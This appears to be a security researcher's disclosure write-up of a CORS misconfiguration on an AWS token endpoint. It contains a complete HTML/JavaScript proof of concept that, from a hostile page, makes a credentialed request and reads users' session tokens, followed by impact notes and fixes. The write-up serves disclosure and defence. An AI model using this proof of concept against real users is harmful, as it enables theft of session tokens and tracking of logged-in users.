 # 🔓 CORS Misconfiguration on AWS (`vs.aws.amazon.com/token`)

## 👋 Hello Hackers!!! 

While testing the `vs.aws.amazon.com/token` endpoint, I discovered a
**CORS misconfiguration** that allows an attacker-controlled origin to
interact with sensitive AWS session and visitor tokens. The endpoint
reflects the `Origin` header and sets:

- `Access-Control-Allow-Origin: <attacker-controlled-origin>`  
- `Access-Control-Allow-Credentials: true`  

This combination makes it possible for any malicious website to steal
AWS tokens from logged-in users.

---

## ⚡ Steps to Reproduce

1. Log in to AWS in a web browser.  
2. Host or open a malicious HTML page (example:  
   `https://evil.com/poc.html`) with the following code:

```html
<!DOCTYPE html>
<html>
<head>
  <title>CORS PoC</title>
  <style>
    body { font-family: monospace; padding: 20px; }
    button { padding: 8px 16px; margin-bottom: 12px; }
    pre {
      white-space: pre-wrap;   /* wrap long lines */
      word-wrap: break-word;   /* break long words */
      background: #111;
      color: #0f0;
      padding: 10px;
      border-radius: 5px;
    }
  </style>
</head>
<body>
  <button onclick="getToken()">Get Token</button>
  <pre id="output">— no response yet —</pre>

  <script>
    function getToken() {
      fetch("https://vs.aws.amazon.com/token", {
        method: "POST",
        credentials: "include", // include cookies
        headers: {
          "Content-Type": "application/json"
        },
        body: "{}"
      })
      .then(res => res.json())  // try JSON parse
      .then(data => {
        document.getElementById("output").innerText =
          JSON.stringify(data, null, 2); // formatted
      })
      .catch(async err => {
        try {
          let text = await err.text();
          document.getElementById("output").innerText = text;
        } catch {
          document.getElementById("output").innerText = "Error: " + err;
        }
      });
    }
  </script>
</body>
</html>
 
```
3. Visit the page while authenticated to AWS.
4. Click the Get AWS Token button.
5. Observe that the response returns sensitive session/visitor tokens
from vs.aws.amazon.com, even though the request originated from a
malicious site.

## 🖼️ Proof of Concept(PoC)
![IMG_9726](https://github.com/user-attachments/assets/7a0ade34-a585-4432-942f-d5941c0e8a5b)
![IMG_9727](https://github.com/user-attachments/assets/5dec2c3a-4fe1-43e4-a61c-880a29123c00)

## 🎯 Impact

- An attacker can exfiltrate AWS session/visitor tokens (awsd2c-token) from any logged-in user.
- These tokens are long-lived (Max-Age=31536000) and could be used to:
  - 🕵️ Track/correlate users across devices and services.
  - ⚠️ Potentially hijack sessions if combined with other weaknesses.
  - 🔑 Access metadata intended only for authenticated users.
**Severity: 🔴 Critical (CVSS 9.3)**

## 💡 Takeaways
- Even small misconfigurations (like reflecting Origin) can lead to serious credential leakage.
- Long-lived tokens increase the window of exploitation.
- CORS should always be restricted to trusted domains only — never dynamic reflection.
- Adding Access-Control-Allow-Credentials: true without strong origin checks is a red flag.

## ✅ Recommendation
- Do not dynamically reflect the Origin header.
- Restrict Access-Control-Allow-Origin to trusted domains only (e.g., https://aws.amazon.com).
- Avoid setting Access-Control-Allow-Credentials: true with untrusted origins.





